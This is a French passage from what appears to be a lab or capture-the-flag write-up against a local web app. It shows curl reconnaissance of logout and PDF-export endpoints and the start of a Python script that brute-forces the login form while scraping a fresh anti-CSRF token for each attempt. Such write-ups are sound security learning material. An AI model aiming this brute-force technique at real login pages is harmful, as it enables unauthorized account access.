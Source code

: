 J'aime bien jeter un coup d’œil aux entêtes des scripts de déconnexion car ils sont parfois verbeux sur les cookies qu'ils suppriment (quand bien même les cookies n'ont pas été créés auparavant):   

```plain
$ curl -D- http://192.168.2.3/test2/logout.php
HTTP/1.1 302 Found
Date: Sun, 11 Mar 2018 15:05:15 GMT
Server: Apache/2.4.25 (Debian)
Set-Cookie: PHPSESSID=bhod6l3421raocr9gli8baq3o0; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: user=0; expires=Mon, 12-Feb-2018 15:05:15 GMT; Max-Age=0; path=/
Set-Cookie: pass=0; expires=Mon, 12-Feb-2018 15:05:15 GMT; Max-Age=0; path=/
Location: /
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

Ici ça paye car on voit deux clés user et pass. Malgré cela ils ne semblent pas permettre de bypasser l'authentification ni provoquer une injection SQL...  

Le script d'export nous retourne vraisemblablement la page de profil de l'utilisateur *admin* au format PDF :  

```plain
$ curl -D- http://192.168.2.3/test2/export.php
HTTP/1.1 200 OK
Date: Sun, 11 Mar 2018 15:05:57 GMT
Server: Apache/2.4.25 (Debian)
Content-Disposition: inline; filename=profile.pdf
Transfer-Encoding: chunked
Content-Type: application/pdf

%PDF-1.4
1 0 obj
<<
/Title (��Profile of admin)
/Creator (��wkhtmltopdf 0.12.4)
/Producer (��Qt 4.8.7)
/CreationDate (D:20180311110557-04'00')
>>
```

On voit ici que la génération semble se faire par un outil baptisé *wkhtmltopdf*.  

Après avoir cherché des paramètres à passer à *export.php* pour lui faire cracher des donnés différentes, je suis passé sur le bruteforce de la page de login de l'application.  

Cela est compliqué par la présence d'un token généré aléatoirement à chaque tentative, il faut donc l'extraire de la page pour chaque requête :  

```python
import sys
import requests
from bs4 import BeautifulSoup

sess = requests.session()
response = sess.get("http://192.168.2.3/test2/login.php")
soup = BeautifulSoup(response.text, "lxml")
token = soup.find("input", attrs={"name": "token"})["value"]

USER_FILE = sys.argv[1]
PASS_FILE = sys.argv[2]

with open(USER_FILE) as fd:
    for user in fd:
        user = user.strip()
```
